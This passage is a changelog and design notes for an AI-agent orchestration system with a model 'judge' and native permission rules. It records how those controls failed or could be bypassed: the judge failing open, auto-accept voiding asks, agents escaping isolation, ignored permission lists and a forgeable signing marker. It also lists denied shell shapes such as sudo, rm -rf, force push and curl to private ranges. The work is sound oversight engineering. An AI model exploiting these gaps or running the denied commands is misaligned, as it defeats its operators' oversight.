- 2026-10-03: PR 11, a trial you can sit in front of. `bin/switchboard-trial`
  (`init`, `login`, `up`, `status`, `down`) builds a second Lab-shaped profile
  with a real model: its own v2 install and data, its own switchboard config and
  state, its own herdr workspace, and a scratch repo. v2's managed service
  uses a fixed port per profile, so the trial's is 49380 beside the Lab's
  49374. The trial wrapper strips every credential-shaped variable and then
  gives the agents the `gh` token as `GH_TOKEN` (they work on GitHub); the
  OpenRouter key stays in the daemon only. A bug the trial found: `launch` had
  no `--charter`, so a Chief of Staff could not find an orchestrator's asks.
  Fixed, with a test watched failing without the fix. The v1 import is left
  built but is not part of the trial.
- 2026-10-05: three things the first real trial session found, all fixed in PR 11.
  - **`gh` had no login for the agents or the daemon.** The token was given to
    the v2 service only, but an agent's shell runs in the pane's own process, and
    the trial's `XDG_CONFIG_HOME` hid `gh`'s account from the daemon. The wrapper
    now asks `gh` for the token on every start (before it replaces `HOME`, since
    on macOS `gh` finds it through the login keychain), and the daemon gets
    `GH_CONFIG_DIR`. Nothing is stored in a file.
  - **The role files still told the Chief of Staff and orchestrators they run
    under the heartbeat service.** The doc said switchboard agents do not use
    `heartbeat-ack`; PR 6 never changed the files. A `[switchboard]` wake sent the
    Chief of Staff to a heartbeat state directory that does not exist. Only a
    message starting `Heartbeat` may now send an agent there.
  - **The judge asked the Chief of Staff about routine `gh` and `ls` calls.** With
    no ask there is nothing to be outside of, so `outside_scope` now cannot fire
    either (as `outside_intent` already could not); `hard_to_reverse` and
    `speaks_for_you` still do. A wildcard allow was tried and rejected: it
    overrides an agent's `edit: deny`.
  - **`restart`.** `launch --resume SESSION` opens a tab on an existing session
    (it checks the session is the named agent's, creates nothing and sends no
    brief), and `switchboard-trial restart` uses it to close an agent's pane and
    reopen the same session. `up` now resumes an agent that has a session but no
    pane, so `down` and reboots no longer discard a conversation (`up --fresh`
    does). The driver only closes a pane herdr places in the trial's workspace.
  - **The agents were reading the live fleet's skills.** `platform` followed
    `fleet-charter` section 4 and tried to ack a wake. Two causes: the kit's
    skill still said to ack unconditionally in effect, and v2 scans the real
    home for skills even with `HOME` replaced (issue #16 Q3, now confirmed), so
    the live, older copy of a skill with the same name won. The skill now says
    only a `Heartbeat` message expects an ack, and the trial installs the kit's
    skills into its own `skills/` directory and lists it under `skills.paths`,
    which is read last and wins. The live skills are still visible to the
    trial's agents; only same-named ones are overridden.
  - **Two first-run gaps in the trial.** The charter convention needs the
    `<user>:orchestrator` label (the prefix is `whoami`, the OS user) and the
    seeded repo had none, so `platform` could not mark its own charter and, rightly,
    would not create labels unasked. `init` now creates the two labels
    idempotently and labels the charter. And the trial served whichever `gh`
    account was *active*, which changed to one that cannot see the repo: `init`
    now pins the account (`--gh-user`), the wrapper asks for that account's token,
    and the daemon gets it in its own environment only.
  - **The orchestrator started its coder as a v1 agent.** Following the
    `fleet-coordination` skill, `platform` ran `herdr tab create`, `herdr agent
    start --kind opencode` and `herdr agent prompt`: a typed bare `opencode`, which
    is the v1 install on this machine, outside the switchboard and the trial's
    isolation, with no `fleet-switchboard` on its PATH. PR 3 built `launch` to
    replace exactly this, but the skill still taught the old route. It now opens
    with `fleet-switchboard launch` and marks the typed routes as the legacy
    fleet's.
  - **An Intent edit reached nobody (scenario run, live).** PR 6 built the
    change item and the toast, and said PR 5's webhook would call them; nothing
    did. The edit went to the owner as a generic issue note, with a header built
    from the cached, old Done when, and the Chief of Staff and your screen heard
    nothing. The hub now invalidates the issue's cached Intent on every edit,
    holds an edit that changed the Intent section, and gives each Chief of Staff
    the old-to-new item and, through the render step's one toast path, a toast.
    Checked live: the next message carried the new Done when, the item showed
    old to new, herdr reported the toast shown.
  - **An Intent edit wakes the Chief of Staff only when it is ours (#96).** An edit to an issue's Intent section
    now reaches the Chief of Staff (item and toast) only when the editor is one of the config's `owner_logins` (a list
    of GitHub logins, default none), or the issue is one of our charters or an ask or work item under one: the same
    climb that routes a comment finds a fleet agent's charter. Any other issue (another team's, with an Intent line
    of its own) is only audited: one `intent.edit` entry with `woke: false` and why. The decision is made once per
    edit and uses the routing's cached, retried reads. When the chain cannot be read the edit wakes, with the line
    `(chain unreadable: woken to be safe)`, so an ask's Intent change is never lost. Intent edits go only to the Chief
    of Staff today, so no orchestrator's wakes change.
  - **The judge failed open on a cold orchestrator (scenario run, live).**
    `platform` ran `gh workflow run deploy.yml` and the judge allowed it,
    unjudged: each of its calls spent the whole 900 ms resolving the ask (a `gh`
    round trip is about half a second, and an orchestrator needs several) or
    waiting for Jev, which ran to about a second. The daemon now warms every
    fleet agent's identity and ask context in the background, at half the cache
    lifetime, so a call finds them cached; the default budget is 1500 ms, and the
    plugin's own timeout 2500 ms. Also seen live: both agents run with the
    TUI's auto-accept on, which answers every `ask` itself, so the judge's asks
    have no effect there; only a deny stops anything.
  - **The judge ruled on what a message said (scenario run, live).** An
    orchestrator's `fleet-switchboard send cos "... run gh workflow run
    deploy.yml ..."` was scored `speaks_for_you`, because the judge reads the whole
    command. A plain `send`, `intent`, `intents`, `pending`, `status` or `remind`
    is the agents' own channel and is no longer asked about; the check is
    conservative and quote-aware, so any substitution, operator, redirect, glob or
    extra line sends the command back to normal judging, and `launch`, `handoff`
    and `import-v1`, which act, stay judged.
  - **A pass took 2.7 s, and the notice lost its race by three (scenario run,
    live).** herdr lists every pane of every workspace, so the trial's daemon asked
    its v2 about all fifteen of the live fleet's sessions on every pass: eleven
    `session.get` calls, two seconds. A decoration decided at :53 was written at
    :58, after the Chief of Staff had consumed the message and gone idle. A session
    that is no fleet agent (no fleet metadata, or one v2 does not have) is now
    remembered for 120 s; a fleet agent and a transient error never are.
  - **A dead forwarder's reason was a flag description (scenario run, live).**
    `gh webhook forward` prints its error and then its whole usage text, and the
    audit kept the last line: `-U, --url string Address of the local server...`.
    The reason is now the first error-looking line that is not usage.
  - **Agents reacted to their own comments (scenario run, live).** The agents
    share the user's GitHub account, so an event's author cannot say who wrote
    it, and every comment an agent posted came back to it as a wake (`platform`:
    "that message is just my own comment coming back"): a wasted model turn each
    time, and a possible loop. Two fixes. `fleet-switchboard comment` (and
    `handoff`) sign what they post with an HTML comment naming the agent,
    invisible when rendered; a signed comment or review is dropped from the
    webhook and the catch-up read alike. And `github_ignore_authors` drops every
    event by the listed logins, for agents that run as a separate bot account,
    which is the robust answer where you can have one. What is still open: an
    agent that posts with plain `gh` is not signed, so the role files and the
    charter skill now tell them to use `comment`; nothing enforces it.
  - **Signing is transparent now.** Agents are vended just in time and have no
    accounts of their own, and "use the special command" depends on each agent
    remembering it. v2 triggers `shell.create.before` with a mutable spec
    (`command`, `cwd`, `timeout`, `shell`, `env`) and spawns with its `env`
    (measured in the Lab). The `fleet-hooks` plugin uses it to put the kit's
    `shims/` directory first on PATH for every shell command; `shims/gh` signs the
    body of `gh issue comment`, `pr comment`, `pr review`, `issue create` and
    `pr create` (from `--body`, `-b`, a body file or stdin) with an HTML comment
    naming the calling agent (`fleet-switchboard whoami`) and runs the real `gh`
    otherwise, or on any doubt, unchanged. No command is parsed or rewritten, only
    the environment it runs in. Checked live: `platform` ran a plain `gh issue
    comment`, the posted body carried `from=platform`, and the webhook produced no
    item. `fleet-switchboard comment` remains for a harness with no shim. The
    marker is a name, not a proof: anyone who writes one into a comment suppresses
    its delivery. An HMAC over the body with a per-install secret would make it
    unforgeable; not done.
- 2026-10-05: PR 12, a presentation. `docs/presentation/` holds a single-file
  animated deck (`index.html`, no dependencies), its narration (spoken by a
  text-to-speech model through OpenRouter, the script in `narration.json`) and the
  scripts that build an MP4 of the two together (the MP4 itself is not committed). Each element
  appears on the sentence that speaks of it:
  `build/tts.py` writes the audio and `timing.js`, the page reads the sentence
  start times, and `build/render.mjs` parks every animation at each frame time and
  pipes the screenshots to ffmpeg. The numbers on the slides are the real ones
  (970+ tests, 21 live scenarios, 12+ bugs found in a live run). The narration was
  checked by transcribing it back with a speech-to-text model, not by ear.
- 2026-10-06: PR 13, workers report. Found live in the trial: every worker turn
  end woke the Chief of Staff with a `worker.idle`, it answered "no change", and
  those answers, which were all the human saw, were noise; and v2's TUI shows no
  synthetic message at all. Measured: `session.synthetic` accepts an optional
  `description`, which the TUI draws as a one-line row. Changed: `fleet-switchboard
  report` (attention reports wake, progress reports ride); the rider attribute on
  facts, collapsed and aged out before composing; a bare idle is a rider; a stop
  with no report since the worker's latest assigning input is triaged by the
  `report_owed` question (nudge once, silent, or one `worker.stopped` for the boss,
  failing open); a description on every synthetic message; role files and the
  coordination skill tell agents to report. Scenarios R4 to R8 are new, and
  N1, N2, W1, F4, H1, R1 and R3 now go through the stop triage and wait for
  `worker.stopped` where they waited for `worker.idle`.
- 2026-10-06: PR 14, Decisions. Found live: the human had no place to see what
  waited on them, so every agent reply restated "I am still waiting on your two
  answers"; the `awaiting-user` label answered the question only to someone who
  ran `gh issue list`. Measured first (the spike, then this PR): v2's TUI loads
  a plugin from `cli.json` naming a directory with `tui.tsx`, and draws a
  `sidebar.content` slot as a section; `fs.watch` on the state directory fires
  inside that runtime on macOS (bun 1.4.2, 2.0.22), six events for three
  renames, and re-rendered the section; a row longer than the sidebar (about 36
  columns at a width of 160) wraps, so the plugin wraps titles to 34 characters. Changed:
  `derive_decisions` (labels, pending requests, unanswered reports; ids derived
  from a hash, so they stay put while a decision is open), `decisions.json` kept
  by the daemon (rewritten on change, touched otherwise, so its age is the
  daemon's pulse), `fleet-switchboard decisions`, the `fleet-decisions-tui`
  plugin, `switchboard-trial` installing it, role files and skills ("say it once
  with its id; see Decisions"), and the hub keeping the awaiting-user issues from
  webhook events and one extra read per catch-up, with no new `gh` call per pass.
  Two things the first design got wrong and the tests found: a rank-based suffix
  (`#2a`, `#2b`) renumbers when the first resolves, and a file written only on
  change cannot say the daemon is alive. Scenarios D2 to D5 are new; R3 also expects
  the file back; every offline scenario now also writes `decisions.json`, which
  changed nothing else.
- 2026-10-06: PR 15, one Chief of Staff, many independent projects. Before this
  the daemon read `github_repos` once at start, so a new repo's events never
  arrived and nothing said so; an issue number named no repo; and one `gh`
  account served everything. Changed: the watched set is derived on every pass
  (baseline, live agents' `repo`, charters' repos), forwarders are reconciled, and
  a repo whose forwarder cannot work is read on a poll, with one toast and a line
  in `status`; `owner/repo#N` is accepted wherever an issue number is, facts carry
  their repo, and a bare number from a caller with no repo is refused when several
  are watched; `gh_users` gives each repo or owner its `gh` account, the token
  coming from `gh auth token --user` into a child's environment only (a test
  searches every audit line, message and error of a two-account play, with a `gh`
  that echoes the token into its own errors, for the fake tokens); `launch --repo`
  and `launch --new-workspace` (`herdr workspace create ... --no-focus`, charter
  label checked exactly); the judge treats `gh repo create` and its kin as
  `hard_to_reverse` with no model; the Chief of Staff's role file and the new
  `fleet-setup` skill say how to commission a project. Faults `static-repos`,
  `bare-issue-number`, `one-account` and `repo-create-allowed`; scenarios M2 to M6.
  Not measured against real GitHub: the exact text the real forwarder prints when
  the account lacks admin or the repo is missing (classified by the words "admin
  rights", "403", "Not Found"), and the real `herdr workspace create` reply (read
  as `result.workspace.workspace_id`, from herdr's own agent guide).
  This branch was first built in parallel with PR 14 (the Decisions list) and
  rebased onto it, which left a join open; it is closed here. A decision carries
  its repo and its id is tagged like a message (`api#2`, only when several repos
  are watched); `pending`, `status` and `decisions` show it; the Decisions list,
  the `awaiting-user` read and the blocked-worker toast read every watched repo
  (the derived set, not the config's list or `intent_repo`), each with its own
  account. The rebase conflicted in `catch_up` (PR 14's awaiting read and PR 15's
  poll window both kept) and `build_engine` (`state_dir` and `engine.accounts`
  both set). Scenario D6 (two repos, the same issue number, two decisions) with
  `bare-issue-number` as its control.
- 2026-10-06: PR 16, Install. Found: trying the system needed `bin/switchboard-trial`, which we wrote;
  a real user could not point an agent at INSTALL.md and end with a Chief of Staff. Added `fleet-switchboard
  install` (idempotent, `--dry-run`, `--uninstall`), a LaunchAgent and a systemd user unit that run
  `run --standby`, the decision-model key as a private file with `key set` and `key status`, `status` saying
  in its first line when there is no key (without one the classifier and the judge fail open and an install
  looks healthy), the daemon started by the commands that need it (never by `judge-tool`), and `bootstrap`.
  The trial driver now calls the install functions for the agents, skills and plugins, so there is one path.
  The scenario ids I1 to I4 were PR 6's, so E1 to E3 are the new ones. The herdr focus guard now allows
  `--focus` in exactly one method (`workspace create`): the Chief of Staff's workspace is the one thing the
  switchboard opens where the person is looking. The Lab
  proof above found that a Lab used before holds old `cos` sessions, and that closing a workspace's last
  pane removes the workspace, so a resume must be ready to make one.
- 2026-10-06: PR 16, the profile is private. Found in review (not by a test or a run): `install` wrote the
  v2 profile (`fleet-hooks.js`, `fleet-decisions/`, `skills.paths`, `cli.json`) into
  `$XDG_CONFIG_HOME/opencode`, the directory the person's ordinary OpenCode reads, while the owner's live
  fleet runs on v1 on the same machine: a v2-shaped plugin there can break every live agent at start. The
  first report said a private directory would break herdr's OpenCode integration, because herdr writes to
  `$HOME/.config/opencode` and ignores `XDG_CONFIG_HOME`. That was wrong, or at best incomplete:
  `bin/switchboard-trial` already runs v2 on a private profile and installs the integration into it
  (`proof.ensure_herdr_integration`), with a private `HOME` whose `.config/opencode` is a link to the
  profile's config directory. Changed: `install` makes that profile (default
  `$XDG_DATA_HOME/fleet-switchboard/profile`), installs everything and herdr's integration into it, runs v2
  through a new `fleet-opencode` wrapper with the trial wrapper's rules (private XDG and `HOME`, credential
  stripping by shape, the `gh` token handled as the trial does), puts `launch_env` in the config so a pane's
  v2 keeps its herdr identity, and writes into the shared directory only with `--shared-profile`, saying
  so. `--uninstall` removes only what was installed, in the private profile. Fault `shared-profile-default`
  with a test that fails under it; a dry run under a temporary `HOME` is tested to touch nothing in
  `~/.config/opencode`. Found while rebasing onto PR 15: both PRs defined an oracle `status_says`, so
  PR 16's is now `status_first_line`; both fake herdrs defined `workspace create`, now one; and PR 15's
  `launch --new-workspace` calls PR 16's `workspace_create` with `focus=False`.
- 2026-10-06: PR 16, what the first real install found. It ran on the owner's machine with `--shared-profile
  --no-service --no-herdr-link`, against OpenCode v2 as the default `opencode`, and found seven things.
  (1) `install` only added missing keys, so `opencode` and `opencode_executable` kept pointing at an earlier
  private wrapper and an older binary, and the switchboard saw no fleet agent. It now owns exactly those two
  keys and says `updated <key> (was <old>)`; a shared profile gets the binary as given, not its resolved
  path. (2) The pane check compared strings, so a pane running the resolved Cellar path was "a different
  opencode" from the configured stable link; both sides are now compared by realpath, in discovery and in
  launch verification (one function). (3) A resumed `bootstrap` never sent the brief when the first attempt
  died after creating the session, and the Chief of Staff came up blank; the resume now derives it from the
  transcript. (4) `status` said `key environment` for a key that only the shell had; a service has no such
  environment. The daemon records its key's source in `daemon.json` and `status` reports that, warns in the
  first line, and `key status` says `environment (only this shell)`. Fault `key-env-only-unseen`. (5)
  `fleet-switchboard` was not on `PATH`, so a Chief of Staff's shell could not run it, fell back to GitHub
  alone and reported nothing waiting with no switchboard evidence: `install` now links it. (6) CI was red on
  ubuntu: the test `test_the_real_status_after_an_install_names_the_missing_key_first` runs `install` for
  `darwin` (which writes a LaunchAgent) and then the real `status`, whose `service` line asked
  `service_kind()` for the platform the TEST HOST is, so on Linux it looked for a systemd unit and said
  `not installed`. The code was inconsistent, not only the test: `status` now takes the platform, and
  `install` passes the one it installed for. Both branches are tested, each with the host patched to the
  other platform, and the suite was also run with `sys.platform` forced to `linux`. (7) `launch_env` holds
  `FLEET_SWITCHBOARD_LAB_PANE=1`, a Lab-named variable: the private wrapper drops herdr's pane identity
  unless it is set, so a private install needs it (only the name is the Lab's) and a shared one, which has no
  wrapper, never gets it. And a shared-profile install wrote a `fleet-opencode` wrapper that nothing used,
  since the config then names the binary: it is no longer written, and `--uninstall` still removes one.
- 2026-10-06: PR 16, the daemon reloads its config, and a slow catch-up cannot freeze it. Found on the first
  real use: the daemon built its engine once, so an edit to the config did nothing until a restart and nothing
  said so (the Chief of Staff noticed, and restarted the daemon by hand), and the first catch-up of a busy
  repo kept the pass busy for about two and a half minutes. Added `ConfigWatch` (mtime and size each pass, read
  after a second of stillness, one validator), a re-exec in place that keeps the pid and the lock, the audit
  events `config.reloaded`, `config.invalid` and `config.recovered`, the `INVALID` and `loaded` lines in
  `status`, `fleet-switchboard restart`, faults `config-read-once` and `catch-up-blocks-pass`, and scenario C2.
  Measured with a fake `gh` at a second a call and 1200 comments nobody owns: the catch-up reads were not the
  blocker (5 calls, in the hub's own thread); routing in the main pass made one lookup per item (1200 calls,
  1200 s) and now takes 5 s and 5 calls a pass.
- 2026-10-06: PR 16, GitHub reads move forward only. The owner's audit log showed 13 catch-ups in about an
  hour on two busy repos, 2,135 items per read, and a full look-back window read after every forwarder
  restart; my own measurement (above) had shown the cost was history nobody owns. The owner's decision: no
  unbounded reads, a fresh start does not read, it moves forward. Added a read marker per repo
  (`github-read.json`), a fresh start that reads nothing, gap-only reads clamped to the look-back, paged reads
  with a cap of 5 pages of 100 and one `github.catch_up.truncated` line, best-effort secondary reads, `status`
  showing the marker age, and faults `catch-up-on-fresh-start` and `full-window-every-time`. The existing
  slow-catch-up tests now start from a marker an hour old (a fresh start reads nothing); a restart test leaves
  a marker file behind; and G3's first comment moved. After deleting the state, a test shows nothing is
  replayed and nothing is delivered twice.
- 2026-10-06: PR 17, standing orders. Found repeatedly: the owner tells an
  orchestrator "self-certify and approve deploys in this repo", and it forgets,
  because the order lived in a chat that compaction later discarded. Changed:
  orders live on the charter issue (`## Standing orders`, one bullet each; the
  legacy `Standing authority:` line still counts) and `parse_orders` is the one
  parser; `fleet-switchboard orders list|add|remove` (Chief of Staff only for the
  writes, a narrow PATCH of the section with a readback, audited); the judge
  reads every order and has one deterministic rule against an agent editing its
  own charter; a fact kind `orders`, keyed by charter, orders hash and the
  newest completed compaction (or `start`), delivered as a note that never wakes
  and is never converted to a wake; role files and skills. Measured in the Lab:
  v2 2.0.22 shows a compaction as a message of type `compaction` with the status
  assumed (details in "Standing orders (PR 17)"). Two things the tests found: a
  fact key was unique across the fleet, but every agent of a charter shares the
  orders key, so it is now unique per recipient; and the role-file guards needed
  older text trimmed to make room. Scenarios O1 to O4 are new (the brief called
  them S2 to S5, ids the spikes already hold).
- 2026-10-06: PR 17 rebased onto PR 16 and made multi-repo (the TODO above is
  done). `orders list|add|remove --charter` accepts `owner/repo#N` (a bare number
  is the caller's repo, as PR 15 defined); the orders note key is
  `orders:<owner/repo>#<charter>:<hash8>:<compaction id|start>` and the audit
  subject is `charter:<owner/repo>#<charter>`; the orders read and the PATCH use
  the repo's own `gh` account in the child's environment only (the "secret never
  text" test of PR 15 covers both); the judge's charter rule reads the repo a
  command names and does not take issue 1 of another repo for the charter.
  Scenario O5 (S6 is a spike's id) with `one-account` as its control. The rebase
  conflicted in the fact fields (`repo` and `orders` both kept), the fault list,
  the scenario vocabulary, the CLI parsers, and `fetch_standing_authority`
  (PR 15's per-repo read and PR 17's orders reader merged: the orders reader
  takes the repo and passes it to every `_api`). The compaction detection code
  was not touched by any conflict, so the Lab proof above was not repeated. Its
  notes name a throwaway profile on its own port and nothing under
  `~/.config/opencode`, so none needed correcting to PR 16's private profile
  layout.
- 2026-10-07: three more things the first real use found, fixed on PR 16.
  - **A large reply was cut short.** OpenCode v2's `api` command loses the end of a large reply when it
    writes to a pipe and exits: a real 500 KB transcript arrived cut at 293 KB inside a string, so every read
    of the Chief of Staff's transcript failed with `bad_json`, a worker's `done` report was held, and the
    decisions list could not read its reports. The same error had shown in the trial's classifier. The v2
    client now has the command write to a file and reads that back; a runner that truncates a pipe the way v2
    does reproduces the failure in a test.
  - **The end of a listing was an error.** v2 names a `next` cursor even when the page just returned held the
    whole listing, and following it answers an empty page. `message_pages` raised on that, so a read that
    paged past one page could never finish. An empty continuation now ends the walk; one that repeats a
    message is still an error.
  - **The Decisions panel could only say "daemon not updating".** The plugin found its file only through
    `FLEET_SWITCHBOARD_STATE`, which the trial's wrapper exported and a real install does not. With nothing set
    it now looks in the directory the daemon writes to by default. A TUI loads plugins when it starts, so a
    running one needs a restart, and one that started before `install` has no panel at all.
- 2026-10-07: PR 18, decision tiers, the Chief of Staff's own standing orders, per-repo views. The owner decided
  the model (not reopened here): there is one Chief of Staff over many orchestrators, each owning one workspace
  and one repo, and a decision has a tier. An orchestrator never goes straight to the human; it raises a decision to
  the Chief of Staff (a `report question` or `blocked` to its boss, and the label `<user>:awaiting-cos`), which
  resolves it with the owner's standing orders or escalates it with `<user>:awaiting-user`. The human's panel
  shows only what is escalated to them. The Chief of Staff may also answer an agent's pending permission prompt or
  question when its orders cover it. Its orders are one local markdown file, not a charter section, because there
  is no good place for them on GitHub yet; PR 17's per-charter orders are untouched. No hard limit on orchestrators
  per repo: the Chief of Staff manages that. Why: after PR 14 every `report question`, label and prompt of every
  agent landed on the owner's list however small, the owner became the answer to routine prompts, and the Chief of
  Staff, with no charter, had no authority text at all, so the judge treated every merge or deploy it ran as not
  covered. Changed: `tier` on every decision; the daemon's awaiting read covers both labels with two bounded reads
  per repo (PR 16's forward-only and cap rules hold); `fleet-switchboard decisions` takes `--repo`, `--tier` and a
  view by caller (the Chief of Staff everything, an orchestrator its repo, anyone else the human tier) and says
  which view it printed; `decisions escalate`, `resolve`, `answer`, `batch` and `supersede`; `labels ensure` (and `bin/switchboard-trial
  init` makes the new label); `orders --cos`; `install` makes the orders file's template and never overwrites it;
  the judge feeds the file to the Chief of Staff's judgement as its authority (whole, to the model), a note
  with the file's text reaches the Chief of Staff at its start, after each compaction and when the file changes
  (PR 17's path, found by role), and a deterministic rule stops any agent that writes the file; `launch` and
  `bootstrap` tell a pane its role and repo so the TUI panel can pick its view; role files and skills. Decisions
  the work forced: (1) the audit log is never read by a decision (invariant), so an escalated prompt is kept in one
  small disposable file, `escalated-requests.json`, pruned by the daemon, and it only brings forward what the grace
  period would do anyway; (2) a report about an issue the Chief of Staff escalated becomes yours with its issue, so
  one decision is not listed in two tiers; (3) only the Chief of Staff, or the owner in a plain shell, may escalate,
  resolve or answer: an orchestrator that could would be granting itself authority; (4) the judge's question for an
  `answer` or `resolve` is given the decision it acts on, read from `decisions.json`, because it would otherwise
  see only an id; (5) `resolve` and `answer` are judged and `escalate` is not, because escalating only surfaces
  something to the owner. The role files were already at their size guards; older prose was shortened, and the
  guards stand. Verified live, in a throwaway v2 2.0.24 profile on its own port (details above): `permission.reply`
  and the form reply (shapes, errors, the effect on the lists). Verified on fakes only: everything else, including
  `labels ensure` and the label writes (no real GitHub was touched), the panel's views (the plugin's functions run
  under node, not in a real TUI), and the judge with a replayed model. Not measured: herdr's reply for a pane that
  is a person's shell and no agent (the reads treat any herdr or v2 error as the human's view; the writes refuse),
  and `orders --cos` run from inside a pane of the private profile, whose `XDG_CONFIG_HOME` is the profile's: it
  looks beside the config that process reads, while the daemon (which feeds the judge and the note) and `install`
  use the daemon's own. Read the file from a plain shell, or with `cos_orders_file` set to one absolute path.

## Forwarder status (#77)

A forwarder's websocket drops are normal: the supervisor restarts it in 5 s and a catch-up read follows. `status`
therefore shows a running forwarder as `live, up <age>`, with its drops as quiet history (`last drop 4m ago, 3 in
the last hour`); a recovered drop is not an error and its old `last_error` is not printed. For a live forwarder the
catch-up marker is labelled `catch-up read to ...`: it is the last backstop read, not how fresh events are.
A forwarder that is not running is `down <age>`. An alarm (`ALARM: forwarder ...` in `status`, check `forwarders`
in `fleet-doctor`) fires when one has been down more than 5 minutes, has dropped more than 6 times in 10 minutes,
or has had 3 runs under 60 s in 10 minutes. Polling repos are not alarmed. The history is memory in the daemon,
published in the watch snapshot, so a daemon restart clears it.

## Reports source: per-boss errors (#80)

A worker's `reports_to` may be the role name `chief-of-staff` while the Chief of Staff is registered under another
name (for example `cos`). The reports source resolves that alias to the one registered agent whose role is
chief-of-staff, so it never looks for a boss that does not exist; with no single such agent the name stays literal.
When a boss cannot be read, the `reports` error names it (`boss`), and the outbound sync keeps (does not withdraw) only
the report items of that boss. An answered report to another boss is withdrawn as usual. A report item whose boss
is not known (a link made before this field existed) is still kept while any boss is unreadable, the cautious way;
an error that names no boss still freezes every report. The link table gains an optional `boss` per link.

**Every boss lookup resolves the alias (#102).** The same resolver (`resolve_boss`, through `boss_name`) now serves every place that looks a
`reports_to` up as an agent, not only the reports source: the stop triage (`worker.stopped`: it no longer says "the boss chief-of-staff is not running"
while the Chief of Staff runs, and its report-since-assignment check runs for workers who report to it, with the nudge and the quiet-stop audit
naming the resolved agent), the recipient of a `report` and of the worker facts, the `--interrupt` check (the Chief of Staff may interrupt
such a worker), steering into a working turn, an answer's delivery to the worker's boss, the checkpoint reminders' overdue wake, the boss recorded with
a PR notice, and the reports listing. With no single registered agent of that role the name stays literal everywhere, so the behaviour is unchanged.
`reports_to` as shown to a person is still the text the worker was launched with.

## Plan check (#135)

`fleet-switchboard plan check <owner/repo#N | issue URL | --file PATH> [--json]` is gate G0a of plan-driven development:
it reads a plan (the latest `Plan (scenarios)` comment, else the issue body), parses its one `scenarios:` yaml block with a
small strict parser (no yaml dependency, nothing evaluated), checks every scenario is well-formed and discriminating and
every Done-when clause of the ask is covered by an S scenario, and prints PASS or FAIL, one line per defect and the
the plan's two hashes (scenario hash and whole-plan hash; approval binds to the plan hash). Exit 0 pass, 1 fail, 2 unreadable. It reads only. The rules, the schema, a good example and three
bad ones are in [docs/plan-template.md](plan-template.md); the checker is `bin/plan_check.py` (pure: text in, data out).
A one-sentence Done-when with several clauses is declared in a `clauses:` block, which is verified against the ask's text. The `fleet-planning` skill that teaches orchestrators to write plans is a later slice.

## Status speed (#86)

`fleet-switchboard status` spent most of its time on the intent-gap check: one serial `gh api` read (about 0.4 s)
for every issue an agent or fact refers to, over 100 reads in all for a busy fleet. Those reads now run in parallel
(8 at a time) within one 4 s budget. A read that has not finished by then is counted, not waited for, and `status`
says so (`intent: N referenced issue(s) not checked within the 4s budget (partial answer)`); the threads are daemon
threads, so a stuck `gh` cannot hold the process. The remaining time is v2 and herdr reads per agent in discovery,
which are serial and unchanged.

## A report's issue tag is checked (#89)

`fleet-switchboard report <state> --issue <n>` looks the issue up (the intent reader's cache, else one `gh` read,
waiting at most 3 s; only in the ask repo or the worker's own repo) and refuses with `issue repo#n does not exist ...` when GitHub says Not Found, so a report is
never raised against a ghost that only a send on the same ghost could clear. The check is best effort: with no ask
repo configured, an offline or slow `gh`, or any answer other than a clear Not Found, the report is accepted. A report
without `--issue` (the worker's own ask) is not looked up.

## The Chief of Staff is read-only by native permissions (#105)

The Chief of Staff's definition (`agents/opencode/chief-of-staff.md`) carries an OpenCode v2 `permissions:` list instead of a judge or an
instruction. The first rule is `* * deny`; allows follow (reads, `fleet-switchboard`, `gh`, a few `git`/`az`/`curl` read shapes); deny
guards come last (redirects, `$()`, `gh api` writes, `--admin`/`--auto`, `gh repo|secret|variable|release|auth|extension|alias`, `gh workflow run`,
`az` write verbs and secret values, `curl` to localhost, private ranges or with userinfo, secret-bearing paths). Last match wins and any deny
denies. **Nothing asks**: a denial is hard ("Permission denied: shell") and the Chief of Staff routes the work to the owning orchestrator
instead of blocking on a dialog. Principal's word (the owner): "I don't have a problem with you using gh to write comments or close/merge PRs";
a questionable PR is still held and raised (instruction level, not enforceable by a pattern).

Pitfalls found by `tools/cos-permissions-proof/` (read its README):
- an agent frontmatter with a `name:` key makes v2 ignore the whole `permissions:` list (the agent runs allow-all). The cos file has none;
  `TestChiefOfStaffNativePermissions` and `TestAgentDefinitions` assert it. The coder, orchestrator and cos-subagent files still carry `name:`
  and the v1 `permission:` form: their rules are not enforced either; step 2.
- patterns are whole-value globs over a scanner-split command (`*` and `?` only, no character classes); `x *` matches `x` and `x args`, never `xy`.
  Quoted arguments keep their quotes, so `curl -s 'https://...'` is denied: write the URL unquoted.
- an explicit deny does not invoke plugin hooks, so denials are proved by "nothing ran, nothing asked", not by a log line.

Proof: `python3 tools/cos-permissions-proof/run.py`: allowed commands all run; hostile ones are denied-not-run (a hand-triaged `harmless` list
of read-only shapes aside); asked is 0.

**Rollout.** Reinstall the agents (the installer copies `agents/opencode/*.md`) and restart the Chief of Staff's opencode session; a running
session keeps the definition it began with. This is a `~/.config` change: only on the owner's yes via the Chief of Staff.
**Rollback.** Restore the previous `chief-of-staff.md` (`git revert` of the PR, reinstall, restart).

**Draft, NOT applied: a global never-list.** A fleet-wide floor that holds even if an agent file is wrong (in `opencode.jsonc`; policy
denials read "Blocked by configuration policy"). Shape to be confirmed against the v2 `experimental.policies` schema before anyone applies it:

```jsonc
"experimental": { "policies": [
  { "action": "shell", "resource": "*sudo*", "effect": "deny" },
  { "action": "shell", "resource": "bash *", "effect": "deny" },   // and sh, zsh, eval, exec
  { "action": "shell", "resource": "*rm -rf*", "effect": "deny" },
  { "action": "shell", "resource": "git push --force*", "effect": "deny" },
  { "action": "shell", "resource": "gh repo delete*", "effect": "deny" }
] }
```

Orchestrators (step 2) need data-driven allows. The last-3-days shell calls of orchestrators lead with: `cat`, `gh api`, `fleet-switchboard send`,
`echo`, `git fetch`, `date`, `git show`, `fleet-switchboard report`, `python3`, `gh pr view`, `fleet-switchboard notice`, `gh pr merge`, `remind`,
`gh pr checks`, `grep`, `gh issue comment`, ... A standing order lets orchestrators `gh pr merge --admin`: the cos guard against `--admin` is
for the cos only. An orchestrator's pending ask has no timeout in OpenCode v2 (the docs list none); the switchboard already tiers it
(`decisions_cos_grace_seconds`, 300s, then the human) and can answer it (`permission_reply`), so a timeout-to-deny would be a switchboard action.

### Review changes at f1c3c4f (#108)

- `handoff`, `subagent`, `task`, `launch` are denied: handoff starts a `cos-subagent` whose own definition is allow-all.
- (Superseded by the next section: answer/resolve/supersede and orders add/remove are allowed again, with the CLI as the lock.) `decisions batch` stays denied. **For the owner:** with this the Chief of Staff cannot answer an
